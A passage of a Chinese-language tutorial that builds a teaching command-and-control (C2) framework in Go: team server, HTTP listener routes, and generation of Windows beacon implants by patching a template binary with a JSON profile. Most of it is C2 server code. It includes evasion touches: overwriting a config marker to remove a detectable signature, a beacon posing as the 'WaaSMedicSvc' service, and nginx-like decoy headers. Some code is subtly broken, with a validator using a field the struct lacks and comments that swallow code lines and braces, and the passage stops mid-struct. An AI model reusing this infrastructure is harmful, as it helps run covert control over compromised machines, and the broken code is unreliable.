    h.ListenerHandlers["Beacon-HTTP"] = listener.NewBeaconHTTPListener(teamserver).(ListenerHandler)  
    h.BeaconHandlers["Beacon"] = beacon.NewBeaconHandler(teamserver).(BeaconHandler)  
    return h  
}
```

`handler/listener/http_type.go`。后续再补充需要用到的接口方法

```
package listener  
  
type TeamServer interface {  
}  
  
type ListenerHTTP struct {  
    ts TeamServer  
}
```

`handler/listener/http_main.go`。

```
package listener  
  
var (  
    listenerHTTP *ListenerHTTP  
)  
  
func NewBeaconHTTPListener(ts any) any {  
    listenerHTTP = &ListenerHTTP{  
       ts: ts.(TeamServer),  
    }  
    return listenerHTTP  
}
```

`handler/beacon/types.go`。后续再补充需要用到的接口方法

```
package beacon  
  
type TeamServer interface {  
}  
  
type BeaconHandler struct {  
    ts TeamServer  
}
```

`handler/beacon/beacon_main.go`

```
package beacon  
  
var (  
    beaconHandler *BeaconHandler  
)  
  
func NewBeaconHandler(ts any) any {  
    beaconHandler = &BeaconHandler{  
       ts: ts.(TeamServer),  
    }  
    return beaconHandler  
}
```

`controller/controller.go` 需要补充一个StartServer方法

```
func (c *Controller) StartServer(finished *chan bool) {  
  
    host := fmt.Sprintf("%s:%d", c.Host, c.Port)  
  
    err := c.Engine.RunTLS(host, c.Cert, c.Key)  
  
    // 发送错误结束  
    if err != nil {  
       logs.Logger.Error("Failed to start server", zap.Error(err))  
    }  
  
    // 正常结束  
    *finished <- true  
  
}
```

`main.go`

```
package main  
  
import (  
    "OneServer/logs"  
    "OneServer/server"    
    "log")  
  
func main() {  
  
    var profilePath string  
    profilePath = "./profile.json"  
  
    ts := server.NewTeamServer()  
    if profilePath != "" {  
       err := ts.SetProfile(profilePath)  
       if err != nil {  
          log.Fatalf("Error loading profile: %v", err)  
       }  
    }  
  
    ts.Profile.Validate()  
  
      
    logs.Logger = logs.InitLogger(ts.Profile.ZapConfig)  
  
    ts.Start()  
}
```

运行服务器

```
go run main.go
```



## 1.6 一个简单的接口测试

这是一个简单的C2框架，为了省事，我并未实现GUI客户端以完成接口测试，而是用API测试工具**Postman**来完成功能验证，这也是现代前后端分别开发的基本思路。测试的工具还有**Apifox**和**Reqable**，你还可以用**bp、yakit、hackbar**，甚至写个python脚本进行测试，怎么舒服怎么来。



# 二、监听器配置和监听器启动

## 2.1 大致流程

大致流程：

1. `controller.InitRouter`：注册一条路由"/listener/create"，并由controller.ListenerStart处理
2. `controller.ListenerStart`：负责接收**启动监听器**的请求并做校验、日志记录、业务调用和返回响应
3. `TeamServer.ListenerStart`：先判断是否有同名监听器如果有则返回错误，因为我们以监听器的名称作为map的“键”，再委托底层handler实现启动，最后把元数据缓存起来。
4. `Handler.ListenerStart`：根据configType找到对应的ListenerHandler处理者，先做参数校验，再真正启动监听器。
5. `ListenerHTTP.ListenerStart`：HandlerListenerDataAndStart真正创建并启动监听器，最后把运行中的实例放进全局列表中以备后续使用，最后返回listenerData。这个结果是用来将创建的listener数据同步到所有client中的，这个功能我并未在教学项目中实现。
6. `ListenerHTTP.HandlerListenerDataAndStart`：拿配置，填默认值，生成随机密钥，然后创建一个http服务器，最后返回listenerdata数据
7. `HTTP.Start`：根据SSL选项启动HTTP服务器还是HTTPS服务器

监听器的配置通常采用json描述监听器参数（类型、监听地址、端口、TLS 证书等），下面就是本项目采用的json监听器配置的例子

```
{
  "name": "http_listener_01",
  "type": "Beacon-HTTP",
  "config": {
    "host_bind": "192.168.1.1",
    "port_bind": 9000,
    "callback_addresses": [
      "192.168.1.1:9000",
      "192.168.1.100:8082"
    ],
    "ssl": false,
    "ssl_cert": "",
    "ssl_key": "",
    "ssl_cert_path": "",
    "ssl_key_path": "",
    "uri": "/index.php",
    "hb_header": "X-Session-Id",
    "hb_prefix":"SESSIONID=",
    "user_agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
    "host_header": "192.168.1.1:9000",
    "request_headers": {},
    "response_headers": {
      "Server": "nginx",
      "Content-Type": "application/json"
    },
    "x_forwarded_for": false,
    "page_error": "<html><body>error</body></html>",
    "page_payload": "<<<PAYLOAD_DATA>>>",
    "server_headers": {},
    "protocol": "http",
    "encrypt_key": "01234567890123456789"
  }
}
```

## 2.2 代码编写

`controller/controller.go` 增加一条"/listener/create"路由

```
func (c *Controller) InitRouter() {  
  
    apiGroup := c.Engine.Group(c.Endpoint)  
  
    apiGroup.GET("/test", c.Test)  
    apiGroup.POST("/listener/create", c.ListenerStart)  
}
```

`controller/types.go` controller需要用到TeamServer的ListenerStart方法，所以在接口处定义

```
type TeamServer interface {  
    ListenerStart(listenerName string, configType string, config request.ConfigDetail) error  
}
```

`utils/request/listener.go` 前端传过来json的数据绑定到ListenerConfig结构体中

```
package request  
  
type ListenerConfig struct {  
    ListenerName string       `json:"name"`  
    ConfigType   string       `json:"type"`  
    Config       ConfigDetail `json:"config"`  
}  
  
type ConfigDetail struct {  
    HostBind          string            `json:"host_bind"`  
    PortBind          int               `json:"port_bind"`  
    CallbackAddresses []string          `json:"callback_addresses"`  
    SSL               bool              `json:"ssl"`  
    SSLCert           []byte            `json:"ssl_cert"`  
    SSLKey            []byte            `json:"ssl_key"`  
    SSLCertPath       string            `json:"ssl_cert_path"`  
    SSLKeyPath        string            `json:"ssl_key_path"`  
    URI               string            `json:"uri"`  
    HBHeader          string            `json:"hb_header"`  
    HBPrefix          string            `json:"hb_prefix"`  
    UserAgent         string            `json:"user_agent"`  
    HostHeader        string            `json:"host_header"`  
    RequestHeaders    map[string]string `json:"request_headers"`  
    ResponseHeaders   map[string]string `json:"response_headers"`  
    XForwardedFor     bool              `json:"x_forwarded_for"`  
    PageError         string            `json:"page_error"`  
    PagePayload       string            `json:"page_payload"`  
    ServerHeaders     map[string]string `json:"server_headers"`  
    Protocol          string            `json:"protocol"`  
    EncryptKey        string            `json:"encrypt_key"`  
}
```

`controller/listener.go`：参数绑定与业务调用

```
package controller  
  
import (  
    "OneServer/logs"  
    "OneServer/utils/request"    
    "github.com/gin-gonic/gin"    
    "go.uber.org/zap"    
    "net/http"    
    "regexp")  
  
func (c *Controller) ListenerStart(ctx *gin.Context) {  
  
    var (  
       listenerConfig request.ListenerConfig  
       err            error  
    )  
  
    err = ctx.ShouldBindJSON(&listenerConfig)  
    if err != nil {  
       logs.Logger.Error("Error in binding JSON data: ", zap.Error(err))  
       ctx.JSON(http.StatusBadRequest, gin.H{"code": false, "message": err.Error()})  
       return  
    }  
  
    if ValidListenerName(listenerConfig.ListenerName) == false {  
       logs.Logger.Error("Invalid listener name", zap.String("listener_name", listenerConfig.ListenerName))  
       ctx.JSON(http.StatusOK, gin.H{"code": false, "message": "Invalid listener name"})  
       return  
    }  
  
    err = c.TeamServer.ListenerStart(listenerConfig.ListenerName, listenerConfig.ConfigType, listenerConfig.Config)  
    if err != nil {  
       logs.Logger.Error("Error in starting listener", zap.Error(err))  
       ctx.JSON(http.StatusOK, gin.H{"code": false, "message": err.Error()})  
       return  
    }  
  
    ctx.JSON(http.StatusOK, gin.H{"message": "Listener started successfully", "ok": true})  
}  
  
// 辅助函数  
  
func ValidListenerName(s string) bool {  
    re := regexp.MustCompile("^[a-zA-Z0-9-_]+$")  
    return re.MatchString(s)  
}
```

`utils/response/listener.go`。本项目中没有实际的作用，一般通过sync包同步到所有client

```
package response  
  
import "OneServer/utils/request"  
  
type ListenerData struct {  
    Name       string               `json:"listener_name"`  
    Type       string               `json:"listener_type"`  
    BindHost   string               `json:"listener_bind_host"`  
    BindPort   string               `json:"listener_bind_port"`  
    BeaconAddr string               `json:"listener_beacon_addr"`  
    Status     string               `json:"listener_status"`  
    Data       request.ConfigDetail `json:"listener_data"`  
}
```

`server/listener.go`：检查防重名，再调用策略层真正启动，成功后把完整元数据写入内存缓存，对外呈现“一键创建监听器”的简洁门面。

```
package server  
  
import (  
    "OneServer/utils/request"  
    "errors")  
  
func (ts *TeamServer) ListenerStart(listenerName string, configType string, config request.ConfigDetail) error {  
  
    if ts.Listeners.Contains(listenerName) {  
       return errors.New("listener already exists")  
    }  
  
    listenerData, err := ts.Handler.ListenerStart(listenerName, configType, config)  
    if err != nil {  
       return err  
    }  
  
    listenerData.Name = listenerName  
    listenerData.Type = configType  
  
    ts.Listeners.Put(listenerName, listenerData)  
  
    return nil  
}
```

`handler/types.go` 补充ListenerHandler接口的方法

```
type ListenerHandler interface {  
    ListenerValid(listenerConfig request.ConfigDetail) error  
    ListenerStart(name string, data request.ConfigDetail) (response.ListenerData, error)  
}
```

`handler/listener.go` 按协议类型取出对应handler，先校验再启动，最后原样返回结果

```
package handler  
  
import (  
    "OneServer/utils/request"  
    "OneServer/utils/response"    
    "errors")  
  
func (h *Handler) ListenerStart(listenerName string, configType string, config request.ConfigDetail) (response.ListenerData, error) {  
    listenerHandler, ok := h.ListenerHandlers[configType]  
    if !ok {  
       return response.ListenerData{}, errors.New("handler not found")  
    }  
  
    err := listenerHandler.ListenerValid(config)  
    if err != nil {  
       return response.ListenerData{}, err  
    }  
  
    return listenerHandler.ListenerStart(listenerName, config)  
}
```

`handler/listener/http_type.go` 暂时未用到TeamServer的方法，后续定义

```
package listener  
  
import (  
    "OneServer/utils/request"  
    "github.com/gin-gonic/gin"    
    "net/http")  
  
type TeamServer interface {  
  
}  
  
type ListenerHTTP struct {  
    ts TeamServer  
}  
  
type HTTP struct {  
    GinEngine *gin.Engine  
    Server    *http.Server  
    Config    request.ConfigDetail  
    Name      string  
    Active    bool  
}
```

`handler/listener/http_main.go`

```
package listener  
  
import (  
    "OneServer/utils/request"  
    "OneServer/utils/response"    
    "errors"    
    "fmt"    
    "net"    
    "regexp"    
    "strconv"    
    "strings")  
  
var (  
    listenerHTTP *ListenerHTTP  
    Listeners    []any  
)  
  
func NewBeaconHTTPListener(ts any) any {  
    listenerHTTP = &ListenerHTTP{  
       ts: ts.(TeamServer),  
    }  
    return listenerHTTP  
}  
  
func (l *ListenerHTTP) ListenerValid(conf request.ConfigDetail) error {  
  
    // 2. 必填项校验  
    if conf.HostBind == "" {  
       return errors.New("host_bind is required")  
    }  
    if conf.PortBind < 1 || conf.PortBind > 65535 {  
       return errors.New("port_bind must be in the range 1-65535")  
    }  
    if len(conf.CallbackAddresses) == 0 {  
       return errors.New("callback_addresses is required")  
    }  
    if conf.HTTPMethod == "" {  
       return errors.New("http_method is required")  
    }  
    if conf.HBHeader == "" {  
       return errors.New("parameter_name is required")  
    }  
    if conf.UserAgent == "" {  
       return errors.New("user_agent is required")  
    }  
    if !strings.Contains(conf.PagePayload, "<<<PAYLOAD_DATA>>>") {  
       return errors.New("web_page_output must contain '<<<PAYLOAD_DATA>>>' template")  
    }  
  
    // 3. 回调地址校验  
    for _, addr := range conf.CallbackAddresses {  
       addr = strings.TrimSpace(addr)  
       if addr == "" {  
          continue  
       }  
  
       // 拆分 host:port       host, portStr, err := net.SplitHostPort(addr)  
       if err != nil {  
          return fmt.Errorf("invalid callback address (cannot split host:port): %s", addr)  
       }  
  
       // 解析端口  
       port, err := strconv.Atoi(portStr)  
       if err != nil || port <= 0 || port > 65535 {  
          return fmt.Errorf("invalid callback port: %s", addr)  
       }  
  
       // 解析 IP 或域名  
       if ip := net.ParseIP(host); ip == nil {  
          // 域名简单校验  
          if len(host) == 0 || len(host) > 253 {  
             return fmt.Errorf("invalid callback host: %s", addr)  
          }  
          for _, part := range strings.Split(host, ".") {  
             if len(part) == 0 || len(part) > 63 {  
                return fmt.Errorf("invalid callback host: %s", addr)  
             }  
          }  
       }  
    }  
  
    // 4. URI 校验  
    var uriRegexp = regexp.MustCompile(`^/[a-zA-Z0-9\.\=\-]+(/[a-zA-Z0-9\.\=\-]+)*$`)  
    if !uriRegexp.MatchString(conf.URI) {  
       return errors.New("uri is invalid")  
    }  
  
    return nil  
}  
  
func (l *ListenerHTTP) ListenerStart(ListenerName string, listenerConfig request.ConfigDetail) (response.ListenerData, error) {  
  
    listenerData, listener, err := l.HandlerListenerDataAndStart(ListenerName, listenerConfig)  
    if err != nil {  
       return listenerData, err  
    }  
  
    Listeners = append(Listeners, listener)  
  
    return listenerData, nil  
  
}
```

`handler/listener/http_handler.go`

```
package listener  
  
import (  
    "OneServer/utils/request"  
    "OneServer/utils/response"    
    "crypto/rand"    
    "fmt"    
    "github.com/gin-gonic/gin"    
    "strconv"   
     "strings")  
  
const (  
    defaultProtocol = "http"  
    encryptKeyLen   = 16  
)  
  
// ---------- 主函数 ----------  
func (l *ListenerHTTP) HandlerListenerDataAndStart(listenerName string, conf request.ConfigDetail) (response.ListenerData, *HTTP, error) {  
  
    if conf.RequestHeaders == nil {  
       conf.RequestHeaders = make(map[string]string)  
    }  
    if conf.ResponseHeaders == nil {  
       conf.ResponseHeaders = make(map[string]string)  
    }  
  
    if conf.HostHeader == "" {  
       conf.RequestHeaders["Host"] = conf.HostHeader  
    }  
  
    if conf.UserAgent == "" {  
       conf.UserAgent = "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"  
    }  
  
    if conf.HBHeader == "" {  
       conf.HBHeader = "X-Session-ID"  
    }  
  
    if conf.HBPrefix == "" {  
       conf.HBPrefix = "SESSIONID="  
    }  
    if conf.EncryptKey == "" {  
       key := make([]byte, encryptKeyLen)  
       if _, err := rand.Read(key); err != nil {  
          return response.ListenerData{}, nil, fmt.Errorf("generate key: %w", err)  
       }  
       conf.EncryptKey = string(key)  
    }  
  
    conf.Protocol = defaultProtocol  
  
    httpListener := &HTTP{  
       GinEngine: gin.New(),  
       Name:      listenerName,  
       Config:    conf,  
       Active:    false,  
    }  
    if err := httpListener.Start(l.ts); err != nil {  
       return response.ListenerData{}, nil, fmt.Errorf("start listener: %w", err)  
    }  
  
    listenerData := response.ListenerData{  
       BindHost:   conf.HostBind,  
       BindPort:   strconv.Itoa(conf.PortBind),  
       BeaconAddr: strings.Join(conf.CallbackAddresses, ","),  
       Status:     "Listen",  
       Data:       httpListener.Config,  
    }  
    if !httpListener.Active {  
       listenerData.Status = "Closed"  
    }  
  
    return listenerData, httpListener, nil  
}
```

`handler/listener/http_listener.go` 暂时未实现processRequest路由处理方法，我的想法是在 `四、Beacon上线服务器并完成注册` 实现

```
package listener  
  
import (  
    "OneServer/middlewares"  
    "bytes"    
    "crypto/rand"    
    "crypto/rsa"    
    "crypto/x509"    
    "encoding/pem"    
    "errors"    
    "fmt"    
    "github.com/gin-gonic/gin"    
    "math/big"    
    "net/http"    
    "os"    
    "time")  
  
func (handler *HTTP) Start(ts TeamServer) error {  
    var err error = nil  
  
    gin.SetMode(gin.DebugMode)  
    router := gin.New()  
    router.NoRoute(handler.pageError)  
  
    router.Use(middlewares.ResponseHeaderMiddleware(handler.Config.ResponseHeaders))  
  
    // TODO  
    router.GET(handler.Config.URI, handler.processRequest)  
    router.POST(handler.Config.URI, handler.processResponse)  
  
    handler.Active = true  
  
    handler.Server = &http.Server{  
       Addr:    fmt.Sprintf("%s:%d", handler.Config.HostBind, handler.Config.PortBind),  
       Handler: router,  
    }  
  
    if handler.Config.SSL {  
       fmt.Printf("   Started listener: https://%s:%d
", handler.Config.HostBind, handler.Config.PortBind)  
  
       listenerPath := "/static"  
       _, err = os.Stat(listenerPath)  
       if os.IsNotExist(err) {  
          err = os.Mkdir(listenerPath, os.ModePerm)  
          if err != nil {  
             return fmt.Errorf("failed to create %s folder: %s", listenerPath, err.Error())  
          }  
       }  
  
       handler.Config.SSLCertPath = listenerPath + "/listener.crt"  
       handler.Config.SSLKeyPath = listenerPath + "/listener.key"  
  
       if len(handler.Config.SSLCert) == 0 || len(handler.Config.SSLKey) == 0 {  
          err = handler.generateSelfSignedCert(handler.Config.SSLCertPath, handler.Config.SSLKeyPath)  
          if err != nil {  
             handler.Active = false  
             fmt.Println("Error generating self-signed certificate:", err)  
             return err  
          }  
       } else {  
          err = os.WriteFile(handler.Config.SSLCertPath, handler.Config.SSLCert, 0600)  
          if err != nil {  
             return err  
          }  
          err = os.WriteFile(handler.Config.SSLKeyPath, handler.Config.SSLKey, 0600)  
          if err != nil {  
             return err  
          }  
       }  
  
       go func() {  
          err = handler.Server.ListenAndServeTLS(handler.Config.SSLCertPath, handler.Config.SSLKeyPath)  
          if err != nil && !errors.Is(err, http.ErrServerClosed) {  
             fmt.Printf("Error starting HTTPS server: %v
", err)  
             return  
          }  
          handler.Active = true  
       }()  
  
    } else {  
       fmt.Printf("   Started listener: http://%s:%d
", handler.Config.HostBind, handler.Config.PortBind)  
  
       go func() {  
          err = handler.Server.ListenAndServe()  
          if err != nil && !errors.Is(err, http.ErrServerClosed) {  
             fmt.Printf("Error starting HTTP server: %v
", err)  
             return  
          }  
          handler.Active = true  
       }()  
    }  
  
    time.Sleep(500 * time.Millisecond)  
    return err  
}  
  
func (handler *HTTP) processRequest(ctx *gin.Context) {  
    // TODO: Implement processing of requests  }  
  
func (handler *HTTP) processResponse(ctx *gin.Context) {  
    // TODO: Implement processing of Response  }  
  
func (handler *HTTP) generateSelfSignedCert(certFile, keyFile string) error {  
    var (  
       certData   []byte  
       keyData    []byte  
       certBuffer bytes.Buffer  
       keyBuffer  bytes.Buffer  
       privateKey *rsa.PrivateKey  
       err        error  
    )  
  
    privateKey, err = rsa.GenerateKey(rand.Reader, 2048)  
    if err != nil {  
       return fmt.Errorf("failed to generate private key: %v", err)  
    }  
  
    serialNumberLimit := new(big.Int).Lsh(big.NewInt(1), 128)  
    serialNumber, err := rand.Int(rand.Reader, serialNumberLimit)  
    if err != nil {  
       return fmt.Errorf("failed to generate serial number: %v", err)  
    }  
  
    template := x509.Certificate{  
       SerialNumber: serialNumber,  
       NotBefore:    time.Now(),  
       NotAfter:     time.Now().Add(365 * 24 * time.Hour),  
  
       KeyUsage:              x509.KeyUsageKeyEncipherment | x509.KeyUsageDigitalSignature,  
       ExtKeyUsage:           []x509.ExtKeyUsage{x509.ExtKeyUsageServerAuth},  
       BasicConstraintsValid: true,  
    }  
  
    template.DNSNames = []string{handler.Config.HostBind}  
  
    certData, err = x509.CreateCertificate(rand.Reader, &template, &template, &privateKey.PublicKey, privateKey)  
    if err != nil {  
       return fmt.Errorf("failed to create certificate: %v", err)  
    }  
  
    err = pem.Encode(&certBuffer, &pem.Block{Type: "CERTIFICATE", Bytes: certData})  
    if err != nil {  
       return fmt.Errorf("failed to write certificate: %v", err)  
    }  
  
    handler.Config.SSLCert = certBuffer.Bytes()  
    err = os.WriteFile(certFile, handler.Config.SSLCert, 0644)  
    if err != nil {  
       return fmt.Errorf("failed to create certificate file: %v", err)  
    }  
  
    keyData = x509.MarshalPKCS1PrivateKey(privateKey)  
    err = pem.Encode(&keyBuffer, &pem.Block{Type: "RSA PRIVATE KEY", Bytes: keyData})  
    if err != nil {  
       return fmt.Errorf("failed to write private key: %v", err)  
    }  
  
    handler.Config.SSLKey = keyBuffer.Bytes()  
    err = os.WriteFile(keyFile, handler.Config.SSLKey, 0644)  
    if err != nil {  
       return fmt.Errorf("failed to create key file: %v", err)  
    }  
  
    return nil  
}  
  
func (handler *HTTP) pageError(ctx *gin.Context) {  
    ctx.Writer.WriteHeader(http.StatusNotFound)  
    html := []byte(handler.Config.PageError)  
    _, _ = ctx.Writer.Write(html)  
}
```

`middlewares/ResponseHeader.go`：把自定义响应头一次性注入到所有后续处理函数

```
package middlewares  
  
import "github.com/gin-gonic/gin"  
  
func ResponseHeaderMiddleware(headers map[string]string) gin.HandlerFunc {  
    return func(c *gin.Context) {  
       for k, v := range headers {  
          c.Header(k, v)  
       }  
       c.Next()  
    }  
}
```

## 2.3 接口测试

ok，这一部分的代码就编写到这里，我们重新启动服务器，测试接口是正常

```
go run main.go
```

或者使用IDE运行



# 三、生成Beacon

## 3.1 大致流程

大致流程：

1. `controller.InitRouter`：注册一条路由"/agent/generate"，并由controller.BeaconGenerate处理。
2. `controller.BeaconGenerate`：绑定参数，查询监听器配置，调用 `BeaconGenerate` 生成二进制，把文件名和内容用 Base64 打包回前端。
3. `TeamServer.ListenerGetConfig`：先判断监听器是否存在，再从map中取出对应的 `ListenerData` 并返回其 `Data` 字段（即 `ConfigDetail`）。
4. `TeamServer.BeaconGenerate`：
5. `Handler.BeaconGenerate`：根据 `beaconConfig.BeaconType` 找到对应的 `beaconHandler`，然后把参数透传给它的 `BeaconGenerate` 方法并返回结果。
6. `BeaconHandler.BeaconGenerate`：
7. `BeaconHandler.BeaconGenerateProfile`：
8. `BeaconHandler.BeaconBuild`：

据我所知生成Beacon的方式一共有两大类型：

1. **通过编译器编译生成**：通过编译器将**源代码**编译成可执行文件。这种方式的优点是可以生成完全自定义的Beacon，支持多种平台和架构，缺点是需要完整的编译环境和源代码。常见的做法是在编译的时候将配置放到C/C++的宏中。
2. **Patch生成**：在**模板可执行文件**的基础上，通过修改配置文件或直接修改二进制文件来生成Beacon。这种方式的优点是不需要完整的编译环境，生成速度快，缺点是灵活性较低，通常只能修改配置信息，不能修改逻辑。

|  |  |  |
| --- | --- | --- |
| 特性 | 编译生成 | Patch 生成 |
| **灵活性** | 高（可以完全自定义逻辑） | 低（只能修改配置信息） |
| **生成速度** | 慢（需要编译） | 快（只需修改配置） |
| **依赖** | 需要编译环境和源代码 | 不需要编译环境，只需模板文件 |
| **适用场景** | 开发阶段、需要高度自定义 | 生产阶段、快速生成 |

在本项目中，我选择的是Patch生成Beacon，还有我看很少有C2通过patch生成，我的这个patch方式只适用于go写的beacon（理论上只要支持json反序列化的语言都可行），更通用的方式就是通过将配置信息用自己的打包器打包，与下文打包任务包类似，就不再这里介绍了。

beacon的json配置

```
{
  "listener_name": "http_listener_01",
  "listener_type": "Beacon-HTTP",
  "beacon_type": "Beacon",
  "config":{
    "arch":"x64",
    "os":"windows",
    "format":"exe",
    "sleep":10,
    "jitter":20,
    "svcname":"WaaSMedicSvc",
    "is_killdate":true,
    "kill_date":"2025-12-31",
    "kill_time":"23:59:59",
    "is_workingtime":false,
    "start_time":"09:00",
    "end_time":"18:00"
  }
}
```

## 3.2 代码编写

`controller/controller.go` 增加一条"/beacon/generate"路由

```
func (c *Controller) InitRouter() {  
  
    apiGroup := c.Engine.Group(c.Endpoint)  
  
    apiGroup.GET("/test", c.Test)  
    apiGroup.POST("/listener/create", c.ListenerStart)  
    apiGroup.POST("/beacon/generate", c.BeaconGenerate)  
}
```

`controller/types.go` controller需要用到TeamServer的ListenerGetConfig和BeaconGenerate方法，所以在接口处定义

```
type TeamServer interface {  
    ListenerStart(listenerName string, configType string, config request.ConfigDetail) error  
    ListenerGetConfig(listenerName string, configType string) (request.ConfigDetail, error)  
    BeaconGenerate(beaconConfig request.BeaconConfig, listenerConfig request.ConfigDetail) ([]byte, string, error)  
}
```

`utils/request/beacon.go`：前端传过来json的数据绑定到BeaconConfig结构体中

```
package request  
  
type BeaconConfig struct {  
    ListenerName string         `json:"listener_name"`  
    ListenerType string         `json:"listener_type"`  
    BeaconType   string         `json:"beacon_type"`  
    Config       GenerateConfig `json:"config"`  
}  
  
type GenerateConfig struct {  
    Os            string `json:"os"`  
    Arch          string `json:"arch"`  
    Format        string `json:"format"`  
    Sleep         int    `json:"sleep"`  
    Jitter        int    `json:"jitter"`  
    SvcName       string `json:"svcname"`  
    IsKillDate    bool   `json:"is_killdate"`  
    Killdate      string `json:"kill_date"`  
    Killtime      string `json:"kill_time"`  
    IsWorkingTime bool   `json:"is_workingtime"`  
    StartTime     string `json:"start_time"`  
    EndTime       string `json:"end_time"`  
}
```

`utils/response/beacon.go`：响应给前端的结构体BeaconFile

```
package response  
  
type BeaconFile struct {  
    FileName    string `json:"name"`  
    FileContent string `json:"file_content"`  
}
```

`controller/beacon.go` 绑定参数，查询监听器配置，调用 `BeaconGenerate` 生成二进制，把文件名和内容用 Base64 打包回前端。

```
package controller  
  
import (  
    "OneServer/logs"  
    "OneServer/utils/request"    
    "OneServer/utils/response"    
    "encoding/base64"    
    "github.com/gin-gonic/gin"    
    "go.uber.org/zap"    
    "net/http")  
  
func (c *Controller) BeaconGenerate(ctx *gin.Context) {  
  
    var (  
       beaconConfig   request.BeaconConfig  
       listenerConfig request.ConfigDetail  
       err            error  
    )  
  
    err = ctx.ShouldBindJSON(&beaconConfig)  
    if err != nil {  
       logs.Logger.Error("Error in binding JSON data: ", zap.Error(err))  
       ctx.JSON(http.StatusBadRequest, gin.H{"code": false, "message": err.Error()})  
       return  
    }  
  
    listenerConfig, err = c.TeamServer.ListenerGetConfig(beaconConfig.ListenerName, beaconConfig.ListenerType)  
    if err != nil {  
       logs.Logger.Error("Error in getting listener config: ", zap.Error(err))  
       ctx.JSON(http.StatusOK, gin.H{"code": false, "message": err.Error()})  
       return  
    }  
  
    fileContent, fileName, err := c.TeamServer.BeaconGenerate(beaconConfig, listenerConfig)  
    if err != nil {  
       logs.Logger.Error("Error in generating beacon: ", zap.Error(err))  
       ctx.JSON(http.StatusOK, gin.H{"code": false, "message": err.Error()})  
       return  
    }  
  
    base64FileName := base64.StdEncoding.EncodeToString([]byte(fileName))  
    base64Content := base64.StdEncoding.EncodeToString(fileContent)  
  
    ctx.JSON(http.StatusOK, gin.H{  
       "code":    true,  
       "message": "Beacon generated successfully",  
       "data": response.BeaconFile{  
          FileName:    base64FileName,  
          FileContent: base64Content,  
       },  
    })  
}
```

`server/listener.go` 实现TeamServer接口方法ListenerGetConfig

```
func (ts *TeamServer) ListenerGetConfig(listenerName string, configType string) (request.ConfigDetail, error) {  
    if !ts.Listeners.Contains(listenerName) {  
       return request.ConfigDetail{}, fmt.Errorf("listener %v does not exist", listenerName)  
    }  
  
    value, _ := ts.Listeners.Get(listenerName)  
  
    return value.(response.ListenerData).Data, nil  
}
```

`server/beacon.go` 实现TeamServer接口方法BeaconGenerate

```
package server  
  
import "OneServer/utils/request"  
  
func (ts *TeamServer) BeaconGenerate(beaconConfig request.BeaconConfig, listenerConfig request.ConfigDetail) ([]byte, string, error) {  
    return ts.Handler.BeaconGenerate(beaconConfig, listenerConfig)  
}
```

`handler/types.go` 定义BeaconHandler接口的方法

```
type BeaconHandler interface {  
    BeaconGenerate(beaconConfig request.GenerateConfig, listenerConfig request.ConfigDetail) ([]byte, string, error)  
}
```

`handler/beacon.go` 找到相应的handler，并返回结果

```
package handler  
  
import (  
    "OneServer/utils/request"  
    "errors")  
  
func (h *Handler) BeaconGenerate(beaconConfig request.BeaconConfig, listenerConfig request.ConfigDetail) ([]byte, string, error) {  
    beaconHandler, ok := h.BeaconHandlers[beaconConfig.BeaconType]  
    if !ok {  
       return nil, "", errors.New("beacon handler not found")  
    }  
  
    return beaconHandler.BeaconGenerate(beaconConfig.Config, listenerConfig)  
}
```

`handler/beacon/beacon_main.go` 实现BeaconHandler接口的方法BeaconGenerate

```
func (b *BeaconHandler) BeaconGenerate(beaconConfig request.GenerateConfig, listenerConfig request.ConfigDetail) ([]byte, string, error) {  
  
    beaconProfile, err := b.BeaconGenerateProfile(beaconConfig, listenerConfig)  
    if err != nil {  
       return nil, "", err  
    }  
    return b.BeaconBuild(beaconProfile, beaconConfig, listenerConfig)  
}
```

`handler/beacon/beacon_handler.go`

* `BeaconGenerateProfile`：把 `GenerateConfig` 和 `ConfigDetail` 两个结构体的字段抄进 `BeaconGenerateConfig` 结构体，然后 `json.Marshal` 成紧凑JSON序列化数据返回。
* `BeaconBuild`：根据协议/架构/格式拼出目录和文件名，然后读取读模板二进制，找到 `CONFIG_MARKER_2024` 的起始索引，从起始索引开始原地覆盖成4字节小端 `profile` 长度，这也是为了消除 `CONFIG_MARKER_2024` 字符串特征。把JSON数据紧接写在长度字段后面，覆盖旧内容。会输出在 `static/product` 目录，这只是为了教学方便！

```
package beacon  
  
import (  
    "OneServer/utils/request"  
    "bytes"    
    "encoding/binary"    
    "encoding/json"    
    "errors"    
    "os"    
    "path/filepath")  
  
type BeaconGenerateConfig struct {  
    // 来自 GenerateConfig    Os            string `json:"os"`  
    Arch          string `json:"arch"`  
    Format        string `json:"format"`  
    Sleep         int    `json:"sleep"`  
    Jitter        int    `json:"jitter"`  
    SvcName       string `json:"svcname"`  
    IsKillDate    bool   `json:"is_killdate"`  
    Killdate      string `json:"kill_date"`  
    Killtime      string `json:"kill_time"`  
    IsWorkingTime bool   `json:"is_workingtime"`  
    StartTime     string `json:"start_time"`  
    EndTime       string `json:"end_time"`  
  
    // 来自 ConfigDetail（去掉 SSLCertPath 、 SSLKeyPath、PageError）  
    HostBind          string            `json:"host_bind"`  
    PortBind          int               `json:"port_bind"`  
    CallbackAddresses []string          `json:"callback_addresses"`  
    SSL               bool              `json:"ssl"`  
    SSLCert           []byte            `json:"ssl_cert,omitempty"`  
    SSLKey            []byte            `json:"ssl_key,omitempty"`  
    URI               string            `json:"uri"`  
    HBHeader          string            `json:"hb_header"`  
    HBPrefix          string            `json:"hb_prefix"`  
    UserAgent         string            `json:"user_agent"`  
    HostHeader        string            `json:"host_header"`  
    RequestHeaders    map[string]string `json:"request_headers,omitempty"`  
    ResponseHeaders   map[string]string `json:"response_headers,omitempty"`  
    XForwardedFor     bool              `json:"x_forwarded_for"`  
    PageError         string            `json:"page_error"`  
    PagePayload       string            `json:"page_payload"`  
    ServerHeaders     map[string]string `json:"server_headers,omitempty"`  
    Protocol          string            `json:"protocol"`  
    EncryptKey        []byte            `json:"encrypt_key,omitempty"`  
}  
  
func (b *BeaconHandler) BeaconGenerateProfile(generateConfig request.GenerateConfig, listenerConfig request.ConfigDetail) ([]byte, error) {  
    merged := BeaconGenerateConfig{  
       // 从 generateConfig 复制  
       Os:            generateConfig.Os,  
       Arch:          generateConfig.Arch,  
       Format:        generateConfig.Format,  
       Sleep:         generateConfig.Sleep,  
       Jitter:        generateConfig.Jitter,  
       SvcName:       generateConfig.SvcName,  
       IsKillDate:    generateConfig.IsKillDate,  
       Killdate:      generateConfig.Killdate,  
       Killtime:      generateConfig.Killtime,  
